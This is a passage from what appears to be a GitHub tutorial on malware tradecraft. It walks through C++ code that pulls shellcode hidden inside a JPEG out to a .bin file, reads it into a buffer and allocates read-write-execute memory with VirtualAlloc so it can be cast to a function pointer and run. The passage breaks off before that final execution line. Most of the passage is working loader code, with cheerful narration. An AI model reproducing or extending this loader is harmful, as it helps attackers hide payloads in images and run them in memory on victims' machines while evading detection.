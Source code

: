 ```cpp
    // Write the extracted shellcode to a file
    std::ofstream outputFile(outputShellcodePath, std::ios::binary);
    if (!outputFile) {
        std::cerr << "Failed to open output shellcode file!" << std::endl;
        return false;
    }
    outputFile.write(reinterpret_cast<const char*>(shellcodeData.data()), shellcodeData.size());
    outputFile.close();

    std::cout << "Shellcode extracted successfully!" << std::endl;
    return true;
}
```

Next, we need our `main()` function which will call our `ExtractShellcodeFromJPEG()` function, read the shellcode from the `.bin` file, and execute it!  But before we do that, let's look ahead a bit to see what that `.bin` file looks like after it's been created:

![image](https://github.com/user-attachments/assets/38c9e21b-a405-4875-9034-bb5dfff97dfa)

Pretty cool huh?  We successfully extracted our shellcode and what we're looking at here is the ASCII representation of our shellcode.  Quite ugly to look at, but either way, we did it!
Finally, the highly anticipated code that ties it all together.  We will open the `.bin` file, read the shellcode into a `char* buffer`, allocate and write the buffer (shellcode) to memory, and cast the memory address of our buffer to a function pointer and execute it!

```cpp
int main() {
    std::string outputFilePath = "c:\\users\\public\\output.jpg";      // Path for the output JPEG with embedded shellcode
    std::string extractedShellcodePath = "c:\\users\\public\\extracted_shellcode.bin";  // Path for the extracted shellcode

   
    // Extract shellcode from the JPEG
    if (!ExtractShellcodeFromJPEG(outputFilePath, extractedShellcodePath)) {
        return 1;
    }

    // Open the .bin file
    std::ifstream file("c:\\users\\public\\extracted_shellcode.bin", std::ios::binary | std::ios::ate);
    if (!file.is_open()) {
        std::cerr << "Failed to open file!" << std::endl;
        return -1;
    }

    // Get the file size
    std::streamsize size = file.tellg();
    file.seekg(0, std::ios::beg);

    // Allocate memory for the contents of the file
    char* buffer = new char[size];

    // Read the file into the buffer
    if (file.read(buffer, size)) {
        // Allocate executable memory and copy the content there
        void* execMemory = VirtualAlloc(NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        if (execMemory == NULL) {
            std::cerr << "Memory allocation failed!" << std::endl;
            delete[] buffer;
            return -1;
        }
```